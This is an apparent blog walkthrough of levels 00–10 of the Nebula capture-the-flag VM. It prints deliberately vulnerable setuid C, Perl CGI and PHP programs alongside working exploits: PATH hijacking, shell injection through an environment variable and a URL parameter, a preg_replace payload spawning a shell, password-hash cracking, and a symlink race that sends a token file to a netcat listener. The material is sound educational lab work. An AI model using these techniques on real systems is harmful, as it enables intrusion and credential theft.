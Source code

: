 Cracking Nebula Part 1
######################

:title: Cracking Nebula Part 1
:date: 2014-06-24T00
:modified: 2014-06-24 22
:tags:


On `Exploit Exercises <http://www.exploit-exercises.com/>`_ you can find a 
number of CTF (Capture The Flag) VM images where you can practice your 
exploiting, hacking and general computer savviness. I've been working 
my way through the Nebula machine and figured I might as well write 
up the process both for other's benefit if they get stuck, and also as 
a sort of diary for myself, so I can refer back to any info if I need to.

The Nebula VM can be downloaded from the `Exploit Exercises download page <http://www.exploit-exercises.com/download>`_

To quickly explain what you need to do: Login in as user :code:`levelxx` and then run :code:`getflag` as user :code:`flagxx`. 
There's some explanations for each level on the machine's page over at Exploit Exercises.


Level 00 ##
-----------

> This level requires you to find a Set User ID program that will run as the "flag00" account. You could also find this by carefully looking in top level directories in / for suspicious looking directories.
> 
> Alternatively, look at the find man page. 

So somewhere from the root directory is a file will run as the flag00 user. As stated you can either look for it, or
use :code:`find` to search for it. I chose to do a little bit of both. Running :code:`find` from the root of a system can take some time so I chose to take a look first. Amongst the usual directories at linux root level is a :code:`rofs` directory. So let's take a look inside.

.. code-block:: console

	
	flag00@nebula:/rofs$ ls
	bin   dev  home        lib    mnt  proc  run   selinux  sys  usr  vmlinuz
	boot  etc  initrd.img  media  opt  root  sbin  srv      tmp  var
	

Looks the same, but let's run a find in here.

.. code-block:: console

	
	level00@nebula:/rofs$ find -user flag00 -print 2> /dev/null
	./bin/.../flag00
	./home/flag00
	./home/flag00/.bash_logout
	./home/flag00/.bashrc
	./home/flag00/.profile
	

There's the usual stuff, but there's also :code:`./bin/.../flag00`. If you run this you can get the flag:

.. code-block:: console

	
	level00@nebula:/rofs$ ./bin/.../flag00
	Congrats, now run getflag to get your flag!
	flag00@nebula:/rofs$ getflag
	You have successfully executed getflag on a target account
	

Level 01 ##
-----------

    There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it? 

.. code-block:: c

	
	#include <stdlib.h>
	#include <unistd.h>
	#include <string.h>
	#include <sys/types.h>
	#include <stdio.h>
	
	int main(int argc, char **argv, char **envp)
	{
	  gid_t gid;
	  uid_t uid;
	  gid = getegid();
	  uid = geteuid();
	
	  setresgid(gid, gid, gid);
	  setresuid(uid, uid, uid);
	
	  system("/usr/bin/env echo and now what?");
	}
	

So let's see about this vulnerability. It doesn't accept user input, but luckily there's only one place where it actually runs anything, so that makes it easier to narrow down where its weakness is. The :code:`system` call executes an :code:`echo` but there's a small oversight. It calls :code:`echo` without an explicit path, can you see where this is going? As :code:`flag01` runs as user :code:`flag01`, anything it executes will also run under that user.

.. code-block:: console

	
	level01@nebula:/home/flag01$ mkdir /tmp/mybin
	level01@nebula:/home/flag01$ cd /tmp/mybin
	level01@nebula:/tmp/mybin$ which getflag
	/bin/getflag
	level01@nebula:/tmp/mybin$ cp /bin/getflag echo
	level01@nebula:/tmp/mybin$ cd ~flag01
	level01@nebula:/home/flag01$ export PATH=/tmp/mybin:${PATH}
	level01@nebula:/home/flag01$ ./flag01
	You have successfully executed getflag on a target account
	

Level 02 ##
-----------

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it? 

.. code-block:: C

	
	#include <stdlib.h>
	#include <unistd.h>
	#include <string.h>
	#include <sys/types.h>
	#include <stdio.h>
	
	int main(int argc, char **argv, char **envp)
	{
	  char *buffer;
	
	  gid_t gid;
	  uid_t uid;
	
	  gid = getegid();
	  uid = geteuid();
	
	  setresgid(gid, gid, gid);
	  setresuid(uid, uid, uid);
	
	  buffer = NULL;
	
	 asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
	  printf("about to call system(\"%s\")\n", buffer);
	  
	  system(buffer);
	}

This is very similar to *Level01* but this time they seem to have patched the system call. However this time they've added something to the statement that we have control over. Look at line 22 and think about how we can make use of that.

.. code-block:: console

	level02@nebula:/home/flag02$ export USER='"";getflag'
	level02@nebula:/home/flag02$ ./flag02
	about to call system("/bin/echo "";getflag is cool")
	
	You have successfully executed getflag on a target account

Level 03 ##
-----------

> Check the home directory of flag03 and take note of the files there.
> 
> There is a crontab that is called every couple of minutes. 

So first things first let's take a look at that crontab

.. code-block:: console

	level03@nebula:/home/flag03$ cat writable.sh
	#!/bin/sh
	
	for i in /home/flag03/writable.d/* ; do
		(ulimit -t 5; bash -x "$i")
		rm -f "$i"
	done

Ok, so it will take a shell script in the :code:`writeable.d` directory, execute it and then delete it. Luckily the directory is world read/write, allowing us to add out own script. As the crontab will run the script as the :code:`flag03` user, we might as well just run the :code:`getflag` from it. We'll capture some output to make sure it worked.

.. code-block:: console

	level03@nebula:/home/flag03$ cat writeable.d/getit
	/bin/getflag > /tmp/gotit
	# wait for the script to run....
	level03@nebula:/home/flag03$ cat /tmp/gotflag
	You have successfully executed getflag on a target account

Level 04 ##
-----------

    This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :) 

.. code-block:: C

	#include <stdlib.h>
	#include <unistd.h>
	#include <string.h>
	#include <sys/types.h>
	#include <stdio.h>
	#include <fcntl.h>
	
	int main(int argc, char **argv, char **envp)
	{
	  char buf[1024];
	  int fd, rc;
	
	  if(argc == 1) {
	    printf("%s [file to read]\n", argv[0]);
	    exit(EXIT_FAILURE);
	  }
	
	  if(strstr(argv[1], "token") != NULL) {
	    printf("You may not access '%s'\n", argv[1]);
	    exit(EXIT_FAILURE);
	  }
	
	  fd = open(argv[1], O_RDONLY);
	  if(fd == -1) {
	    err(EXIT_FAILURE, "Unable to open %s", argv[1]);
	  }
	
	  rc = read(fd, buf, sizeof(buf));
	  
	  if(rc == -1) {
	    err(EXIT_FAILURE, "Unable to read fd %d", fd);
	  }
	
	  write(1, buf, rc);
	}

Ok, so let's take a look at what happens when we run the file

.. code-block:: console

	level04@nebula:/home/flag04$ ls
	flag04  token
	level04@nebula:/home/flag04$ ./flag04
	./flag04 [file to read]
	level04@nebula:/home/flag04$ ./flag04 token
	You may not access 'token'

So we can't access token. Looking at the code there's a check to see if the file is named :code:`token`. We can't simply copy the *token* file because it's read only by the flag user. So there's only one thing for it: symlinks

Then get the flag (some ssh output cut for brevity)

.. code-block:: console

	level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/myfile
	level04@nebula:/home/flag04$ ./flag04 /tmp/myfile
	06508b5e-8909-4f38-b630-fdb148a848a2
	level04@nebula:/home/flag04$ ssh flag04@localhost
	
	flag04@localhost's password:
	
	flag04@nebula:~$ getflag
	You have successfully executed getflag on a target account

So the output of the command is a *token* which is the term used for the password of the flag's user. Using this to logon as *flag04* and run :code:`getflag`.

Level 05 ##
-----------

    Check the flag05 home directory. You are looking for weak directory permissions 

Ok, let's do that

.. code-block:: console

	level05@nebula:~$ cd ~flag05
	level05@nebula:/home/flag05$ ls -la
	total 5
	drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
	drwxr-xr-x 1 root   root     420 2012-08-27 07:18 ..
	drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
	-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
	-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
	-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
	drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh

That *backup* directory looks like our target

.. code-block:: console

	level05@nebula:/home/flag05$ cd .backup/
	level05@nebula:/home/flag05/.backup$ ls -la
	total 2
	drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
	drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 ..
	-rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz
	level05@nebula:/home/flag05/.backup$ tar xvzf backup-19072011.tgz -C /tmp
	.ssh/
	.ssh/id_rsa.pub
	.ssh/id_rsa
	.ssh/authorized_keys

Right so let's use these keys to login as *flag05*. 

.. code-block:: console

	level05@nebula:/home/flag05/.backup$ ssh -i /tmp/.ssh/id_rsa flag05@localhost
	
	flag05@nebula:~$ getflag
	You have successfully executed getflag on a target account

Level 06 ##
-----------

    The flag06 account credentials came from a legacy unix system. 

To cut a long story short, the way the password is stored for this user is not the same as for the other users. In older * nix systems the password was stored inside the :code:`/etc/passwd` file. So let's take a look:

.. code-block:: console

	level06@nebula:/home/flag06$ cat /etc/passwd | grep flag06
	flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh

Yep, there's the encrypted password. Grab that line and run it through John The Ripper

.. code-block:: console

	root@kali:~# echo flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh > nebula.txt
	root@kali:~# john nebula.txt  -show
	flag06:hello:993:993::/home/flag06:/bin/sh
	
	1 password hash cracked, 0 left

That's that, now back on the nebula box

.. code-block:: console

	level06@nebula:/home/flag06$ ssh flag06@localhost
	
	flag06@localhost's password: hello
	
	getflag06@nebula:~$ getflag
	You have successfully executed getflag on a target account

Level 07 ##
-----------

    The flag07 user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server. 

.. code-block:: perl

	#!/usr/bin/perl
	
	use CGI qw{param};
	
	print "Content-type: text/html\n\n";
	
	sub ping {
	  $host = $_[0];
	
	  print("<html><head><title>Ping results</title></head><body><pre>");
	
	  @output = `ping -c 3 $host 2>&1`;
	  foreach $line (@output) { print "$line"; } 
	
	  print("</pre></body></html>");
	  
	}
	
	# check if Host set. if not, display normal page, etc
	
	ping(param("Host"));
	
So the Nebula machine has a webserver running. Checking the config file we can see that it's running on port 7007. The script tells us that it's expecting a :code:`Host` parameter. So let's hit the server from our web browser at the following URL (your IP will depend on what IP your VM has) :code:`http://192.168.56.102:7007/index.cgi?Host=192.168.56.102`

Basically I am pinging the same host. The webpage will display the output of the ping command.

We can't change the ping call, but we have control over what gets passed to the command. Let's craft a special URL

.. code-block:: console

	$> curl http://192.168.56.102:7007/index.cgi?Host=127.0.0.1%20%26%26%20getflag
	<html><head><title>Ping results</title></head><body><pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
	64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.117 ms
	64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.028 ms
	64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.035 ms
	
	--- 127.0.0.1 ping statistics ---
	3 packets transmitted, 3 received, 0% packet loss, time 1998ms
	rtt min/avg/max/mdev = 0.028/0.060/0.117/0.040 ms
	You have successfully executed getflag on a target account

Notice we need to encode the URL parms. The plaintext URL is :code:`http://192.168.56.102:7007/index.cgi?Host=127.0.0.1 && getflag`

Level 08 ##
-----------

    World readable files strike again. Check what that user was up to, and use it to log into flag08 account. 

Let's take a look then

.. code-block:: console

	level08@nebula:/home/flag08$ ls -la
	total 18
	drwxr-x--- 1 flag08 level08   60 2014-06-14 14:10 .
	drwxr-xr-x 1 root   root     500 2012-08-27 07:18 ..
	-rw------- 1 flag08 flag08    13 2014-06-14 14:10 .bash_history
	-rw-r--r-- 1 flag08 flag08   220 2011-05-18 02:54 .bash_logout
	-rw-r--r-- 1 flag08 flag08  3353 2011-05-18 02:54 .bashrc
	-rw-r--r-- 1 root   root    8302 2011-11-20 21:22 capture.pcap
	-rw-r--r-- 1 flag08 flag08   675 2011-05-18 02:54 .profile

The only interesting file that's readable here is :code:`capture.pcap`. Let's copy it out and use *Wireshark* to take a look at it.

.. code-block:: console

	$> scp level08@192.168.56.102:/home/flag08/capture.pcap .
	
	level08@192.168.56.102's password:
	capture.pcap                                  100% 8302     8.1KB/s   00:00
	

Once in Wireshark we can see a TCP stream. Right click on one of the entries and select :code:`Follow TCP Stream`. A new window will appear in which we can see a login attempt. Red entries are user input, and blue entries are the server responses. The username is :code:`level08`. The password is... well, take a look. Notice the :code:`7f` entries. Those are deletes.

`{{< figure src="http://i.imgur.com/IEseNUh.png" >}} <http://i.imgur.com/IEseNUh.png>`_

So....

.. code-block:: console

	level08@nebula:/home/flag08$ ssh flag08@localhost
	
	flag08@localhost's password: backd00Rmate
	
	flag08@nebula:~$ getflag
	You have successfully executed getflag on a target account

Level 09 ##
-----------

    There's a C setuid wrapper for some vulnerable PHP code... 

.. code-block:: php

	<?php
	
	function spam($email)
	{
	  $email = preg_replace("/\./", " dot ", $email);
	  $email = preg_replace("/@/", " AT ", $email);
	  
	  return $email;
	}
	
	function markup($filename, $use_me)
	{
	  $contents = file_get_contents($filename);
	
	  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
	  $contents = preg_replace("/\[/", "<", $contents);
	  $contents = preg_replace("/\]/", ">", $contents);
	
	  return $contents;
	}
	
	$output = markup($argv[1], $argv[2]);
	
	print $output;
	
	?>

Let's run it to see what it actually does.

.. code-block:: console

	level09@nebula:/home/flag09$ echo [email mail@test.com] > /tmp/test.txt
	level09@nebula:/home/flag09$ ./flag09 /tmp/test.txt fasdf
	mail AT test dot com

So the vulnerable part here is the `preg_replace` with the *e* flag. For information on this see `https://bugs.php.net/bug.php?id=35960 <https://bugs.php.net/bug.php?id=35960>`_.

So there's a few ways we can exploit this. We basically need to pass a command to the script that will get executed in the :code:`preg_replace`. Let's try to simply get a shell as the *flag09* user and get our flag.

.. code-block:: console

	level09@nebula:/home/flag09$ echo '[email ${${@system('sh')}}]' > /tmp/test.txt
	level09@nebula:/home/flag09$ ./flag09 /tmp/test.txt fasdf
	sh-4.2$ whoami
	flag09
	sh-4.2$ getflag
	You have successfully executed getflag on a target account

Level 10 ##
-----------

    The setuid binary at /home/flag10/flag10 binary will upload any file given, as long as it meets the requirements of the access() system call. 

.. code-block:: C

	#include <stdlib.h>
	#include <unistd.h>
	#include <sys/types.h>
	#include <stdio.h>
	#include <fcntl.h>
	#include <errno.h>
	#include <sys/socket.h>
	#include <netinet/in.h>
	#include <string.h>
	
	int main(int argc, char **argv)
	{
	  char *file;
	  char *host;
	
	  if(argc < 3) {
	    printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
	    exit(1);
	  }
	
	  file = argv[1];
	  host = argv[2];
	
	  if(access(argv[1], R_OK) == 0) {
	    int fd;
	    int ffd;
	    int rc;
	    struct sockaddr_in sin;
	    char buffer[4096];
	
	    printf("Connecting to %s:18211 .. ", host); fflush(stdout);
	
	    fd = socket(AF_INET, SOCK_STREAM, 0);
	
	    memset(&sin, 0, sizeof(struct sockaddr_in));
	    sin.sin_family = AF_INET;
	    sin.sin_addr.s_addr = inet_addr(host);
	    sin.sin_port = htons(18211);
	
	    if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
	      printf("Unable to connect to host %s\n", host);
	      exit(EXIT_FAILURE);
	    }
	
	#define HITHERE ".oO Oo.\n"
	    if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
	      printf("Unable to write banner to host %s\n", host);
	      exit(EXIT_FAILURE);
	    }
	#undef HITHERE
	
	    printf("Connected!\nSending file .. "); fflush(stdout);
	
	    ffd = open(file, O_RDONLY);
	    if(ffd == -1) {
	      printf("Damn. Unable to open file\n");
	      exit(EXIT_FAILURE);
	    }
	
	    rc = read(ffd, buffer, sizeof(buffer));
	    if(rc == -1) {
	      printf("Unable to read from file: %s\n", strerror(errno));
	      exit(EXIT_FAILURE);
	    }
	
	    write(fd, buffer, rc);
	
	    printf("wrote file!\n");
	
	  } else {
	    printf("You don't have access to %s\n", file);
	  }
	}
	

Now this one take a bit of playing around to get it right. Basically what we are exploiting here is that the file gets checked and then gets used. The :code:`access` call checks the permissions based on the actual user, not the guid user. The file open calls however will run as the guid user. So in between these two calls, we *could* modify the target file and get the program to read the right file.

So ideally we want to create a symlink to a file we own when the :code:`access` call runs, then replace that symlink with one that points to the token file. This relies heavily on timing when to update the symlink. I had a play and this is the most reliable way I have found.

You will need two shells (both on nebula is fine but optional); call them termA and termB. So in termB startup a listening netcat on the relevant port

.. code-block:: console

	level10@nebula:~$ nc -l 18211

in termA we create our symlink, then run the command along with a command to update the symlink

.. code-block:: console

	level10@nebula:/home/flag10$ touch /tmp/mytoken
	level10@nebula:/home/flag10$ ln -fs /tmp/mytoken /tmp/getme
	level10@nebula:/home/flag10$ ./flag10 /tmp/getme 192.168.0.8 & ln -fs /home/flag10/token /tmp/getme
	[1] 7359
	Connecting to 192.168.0.8:18211 .. level10@nebula:/home/flag10$ Connected!
	Sending file .. wrote file!

Meanwhile, back in termB

.. code-block:: console

	.oO Oo.
	615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
	level10@nebula:~$ ssh flag10@localhost
	
	flag10@localhost's password: 615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
	
	flag10@nebula:~$ getflag
	You have successfully executed getflag on a target account

`Part 2 of Cracking Nebula <http://unlogic.co.uk/2014/07/02/cracking-nebula-part2/>`_

